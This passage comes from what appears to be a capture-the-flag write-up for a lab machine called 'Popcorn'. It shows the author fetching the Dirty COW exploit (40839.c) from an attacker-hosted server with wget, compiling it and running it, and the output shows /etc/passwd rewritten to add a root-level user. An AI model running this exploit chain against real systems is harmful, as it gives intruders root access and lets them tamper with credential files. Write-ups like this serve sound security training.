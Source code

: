 ```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Ac | linux/local/40611.c
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

## Privilege Escalation

Let's download 40839.c to our working directory, start a python web server and transfer it to the target using wget.

```
www-data@popcorn:/dev/shm$ wget 10.10.14.7:8000/40839.c
wget 10.10.14.7:8000/40839.c
--2021-11-16 19:22:31--  http://10.10.14.7:8000/40839.c
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `40839.c'

100%[======================================>] 4,814       --.-K/s   in 0.005s  

2021-11-16 19:22:31 (963 KB/s) - `40839.c' saved [4814/4814]

www-data@popcorn:/dev/shm$ ls -l
ls -l
total 480
-rw-rw-rw- 1 www-data www-data   4814 Nov 16 19:18 40839.c
www-data@popcorn:/dev/shm$
```

Next, we need to compile it and execute the binary:

```
www-data@popcorn:/dev/shm$ gcc -pthread 40839.c -o cow -lcrypt
gcc -pthread 40839.c -o cow -lcrypt
www-data@popcorn:/dev/shm$ ls -la
ls -la
total 496
drwxrwxrwt  2 root     root        100 Nov 16 19:23 .
drwxr-xr-x 14 root     root       3320 Nov 16 18:08 ..
-rw-rw-rw-  1 www-data www-data   4814 Nov 16 19:18 40839.c
-rwxrwxrwx  1 www-data www-data  13603 Nov 16 19:23 cow
-rwxrwxrwx  1 www-data www-data 473164 Nov 16 18:44 linpeas.sh
www-data@popcorn:/dev/shm$ ./cow
./cow
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7873000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```